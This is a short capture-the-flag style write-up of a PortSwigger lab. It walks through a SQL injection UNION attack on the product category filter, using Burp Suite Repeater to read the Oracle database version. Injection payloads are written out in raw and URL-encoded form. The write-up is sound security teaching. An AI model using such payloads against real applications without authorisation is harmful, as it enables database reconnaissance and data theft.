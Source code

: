 
# SQL injection attack, querying the database type and version on Oracle

## This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

#oracle_database 
___
To get oracle database version
```sql
SELECT banner FROM v$version  
SELECT version FROM v$instance
' UNION SELECT banner FROM v$version--
```

step 1

select any category then go to
burpsuite => proxy => http history => click on =>`/filter?category=Gifts` => send to repeater

![screnshot](images/lab7_fiter_category_gift_repeater.jpg)

step 2

`' UNION SELECT NULL,banner FROM v$version--`  => URL Encoded(`'+UNION+SELECT+NULL,banner+FROM+v$version--`)
add `'+UNION+SELECT+NULL,banner+FROM+v$version--`
`/filter?category=Gifts'+UNION+SELECT+NULL,banner+FROM+v$version--`

![screnshot](images/lab7_oracale_version.jpg)

step 3

to solve the lab
add `'+UNION+SELECT+NULL,banner+FROM+v$version--` at the end of URL

![screnshot](images/lab7_solved_lab.jpg)